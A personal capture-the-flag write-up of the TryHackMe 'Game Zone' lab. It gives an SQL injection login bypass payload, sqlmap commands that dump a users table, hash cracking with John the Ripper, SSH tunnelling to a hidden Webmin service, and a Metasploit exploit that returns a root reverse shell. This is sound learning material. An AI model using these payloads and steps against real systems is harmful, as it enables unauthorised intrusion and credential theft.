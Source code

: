 # Game Zone [TryHackMe]

<sub>_This is a raw write-up. I write these to document important things for myself to use later if I need it. At the time of writing this, I don’t even know if I’ve solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else’s write-up to complete the challenge. Being a responsible learner, I’m trying my best to accept as little help as possible and only when I’m out of ideas._</sub>

## _Manual Exploitation_

Let’s define the `targ3t` variable to reuse later:

```
targ3t=10.10.244.249
```

Let’s browse the website:

```
firefox $targ3t
```

- __What is the name of the large cartoon avatar holding a sniper on the forum?__

TinEye reverse image search suggests it’s __agent 47__.

Following the walkthrough, let’s input the following string in the `username` field and leave `password` field blank to log in:

```
' OR 1=1 -- -
```

- __When you’ve logged in, what page do you get redirected to?__

__portal.php__

Next we need to start **Burp Suite** and intercept the game review search request, save it to a file `request.txt`:

```
POST /portal.php HTTP/1.1
Host: 10.10.13.72
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.13.72
DNT: 1
Connection: keep-alive
Referer: http://10.10.13.72/portal.php
Cookie: PHPSESSID=62ge9ggqcutbuohs03dtcsr5s4
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

searchitem=test
```

Then we need to run:

```
sqlmap -r request.txt --current-db
```

The current database name is `db`, let's enumerate it:

```
sqlmap -r request.txt -D db --tables
```

Two tables are available: `post` and `users`. Let's enumerate `users`:

```
sqlmap -r request.txt -D db -T users --dump
```

- __In the users table, what is the hashed password?__
`ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

- __What was the username associated with the hashed password?__
`agent47`

- __What was the other table name?__
`post`

Let's crack this hash with __John The Ripper__:

```
echo "ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

- __What is the de-hashed password?__
`videogamer124`

Now let's try to ssh into the machine:

```
ssh agent47@$targ3t
```

- __What is the user flag?__
`[REDACTED]`

Let's move on to exploiting services with reverse SSH tunnels. We need to use `ss` to list sockets running on a host:

```
ss -tulpn
```

- __How many TCP sockets are running?__
__5__

A service running on port `10000` is blocked by a firewall, but we can expose it to our machine using an SSH Tunnel:

```
ssh -L 10000:localhost:10000 agent47@$targ3t
firefox localhost:10000
```

- __What is the name of the exposed CMS?__
__Webmin__

- __What is the CMS version?__
`1.580`

Let's start `msfconsole` for privilege escalation now:

```
msfconsole
search type:exploit webming
```

I'll use this one: `unix/webapp/webmin_show_cgi_exec`:

```
use 0
show options
```

It needs a number of options to be set:

```
set LHOST tun0
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS localhost
set SSL false
run
```

This returns a root shell in the background, let's foreground it:

```
sessions -i 2
```

Let's go to the root's home directory and see the flag:

```
cd /root
ls
cat root.txt
```

And there's our flag!
